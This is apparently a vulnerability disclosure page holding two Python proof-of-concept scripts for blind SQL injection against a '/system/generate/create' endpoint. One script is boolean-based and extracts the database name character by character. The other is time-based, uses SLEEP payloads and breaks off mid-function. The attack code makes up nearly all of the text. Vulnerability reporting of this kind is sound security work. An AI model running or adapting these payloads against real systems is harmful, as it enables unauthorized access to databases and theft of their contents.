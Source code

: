 #### Boolean-based Blind SQL Injection PoC:
```python
import requests

# Target URL
url = "http://vulnerable.host/system/generate/create"

# Determine the length of the database name
def find_database_name_length():
    for length in range(1, 20):  # Assuming the database name is not longer than 20 characters
        sql_payload = f"SELECT (CASE WHEN (LENGTH(database())={length}) THEN 1 ELSE 0 END)"
        data = {'sql': sql_payload}
        response = requests.post(url, data=data)
        if "success" in response.text:  # Assuming "success" is part of the expected response
            return length
    return -1  # Return -1 if the length is not found

# Determine each character of the database name
def find_database_name(length):
    database_name = ""
    for i in range(1, length + 1):
        for ascii_code in range(32, 127):  # Assuming the database name contains only printable characters
            sql_payload = f"SELECT (CASE WHEN (ASCII(SUBSTRING(database(),{i},1))={ascii_code}) THEN 1 ELSE 0 END)"
            data = {'sql': sql_payload}
            response = requests.post(url, data=data)
            if "success" in response.text:  # Assuming "success" is part of the expected response
                database_name += chr(ascii_code)
                break
    return database_name

# Main execution flow
database_name_length = find_database_name_length()
if database_name_length != -1:
    database_name = find_database_name(database_name_length)
    print(f"Database Name: {database_name}")
else:
    print("Unable to determine the database name length")
```

#### Time-based Blind SQL Injection PoC:
```python
import requests
import time

# Target URL
url = "http://vulnerable.host/system/generate/create"

# Send a time-delayed injection request and measure the response time
def send_delayed_injection(sql_payload):
    start_time = time.time()
    data = {'sql': sql_payload}
    response = requests.post(url, data=data)
    elapsed_time = time.time() - start_time
    return elapsed_time

# Determine the length of the database name
def find_database_name_length():
    for length in range(1, 50):  # Assuming the database name is not longer than 50 characters
        sql_payload = f"SELECT (CASE WHEN (LENGTH(database())={length}) THEN SLEEP(5) ELSE 0 END)"
        elapsed_time = send_delayed_injection(sql_payload)
        if elapsed_time >= 5:  # If the response time is greater than or equal to 5 seconds, the condition is true
```
